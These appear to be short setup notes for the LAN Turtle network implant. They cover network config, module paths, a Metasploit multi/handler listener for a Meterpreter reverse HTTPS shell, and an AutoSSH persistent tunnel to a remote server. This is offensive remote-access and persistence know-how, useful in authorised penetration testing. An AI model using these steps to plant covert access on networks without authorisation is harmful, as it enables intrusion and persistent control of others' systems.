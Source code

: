 

Network config: 

    /etc/config/network
    
   route add default gw X.X.X.X


Module locations:

    /etc/turtle/modules

 to start a module from here: ./<module> start
 
 
 
## Modules


### Meterpreter reverse shell

Setting up listener
 
    msfconsole

    use exploit/multi/handler

    set PAYLOAD python/meterpreter/reverse_https

    set LPORT/LHOST
    set SessionExpirationTimeout 604800
    set ExitOnSession false
    exploit -j

 Set up LAN Turtle

 Configure meterpreter-http with the correct IP and Port.
 
### AutoSSH
  
  Modules: autossh and keymanager
  
  Require VM with SSH server. 
  
    
  On the server create user to run the connection
  
       adduser turtle
       
       systemctl start ssh.service
  
   Use keymanager to generate keys and send the key to the server. (will be under /root/.ssh)
   
    Host: IP of SSH server
    Port: Listening port of SSH server
    User: user that was just created on server
    
  
  
  
  
  
  
  
  
  
  
 
